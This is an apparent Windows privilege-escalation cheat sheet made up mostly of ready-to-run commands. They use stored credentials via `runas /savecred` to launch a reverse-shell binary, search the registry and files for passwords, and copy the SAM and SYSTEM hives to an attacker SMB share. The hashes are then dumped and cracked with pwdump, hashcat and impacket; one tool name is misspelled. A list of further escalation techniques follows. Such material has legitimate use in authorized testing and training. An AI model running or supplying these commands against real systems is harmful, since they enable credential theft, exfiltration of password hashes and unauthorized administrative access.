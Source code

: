 ```


# Third Party Applications
wmic product


# Passwords in CMDKEY
cmdkey /list
runas /savecred /user:admin C:\PrivEsc\reverse.exe


# Device Drivers and Kernel Modules
driverquery /v
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}


# Find Passwords
reg query HKLM /f password /t REG_SZ /s
find /si 'password' *.txt *.ps1 *.xml *.docx *.db
find /si 'passwd' *.txt *.ps1 *.xml *.docx *.db
find /si 'pass' *.txt *.ps1 *.xml *.docx *.db
find /si 'cred' *.txt *.ps1 *.xml *.docx *.db


# Kernel Exploits
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe list
wmic qfe get Caption, Description, HotFixID, InstalledOn


# Mounted Disks
mountvol


# SAM
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
python3 creddump7/pwdump.py SYSTEM SAM
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt OR
impacket-secretsduimp -sam SAM -system SYSTEM LOCAL


# Start Up Apps
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

- Group Privileges
- DLL Hijacking
- Unquoted Service Path
- Named Pipe
- Rewrite Service Binaries
- Change path of Service Binary
- RunAs
- Stored Passwords in unattended, sysprep, RDP, log, History or Config Files
- Startup Applications
- PrintSpoofer
- Service Exploits
- SAM and SYSTEM Readable Files
- Username as passwords, passwords as passwords, empty passwords
- Reused Passwords
- Check logs for passwords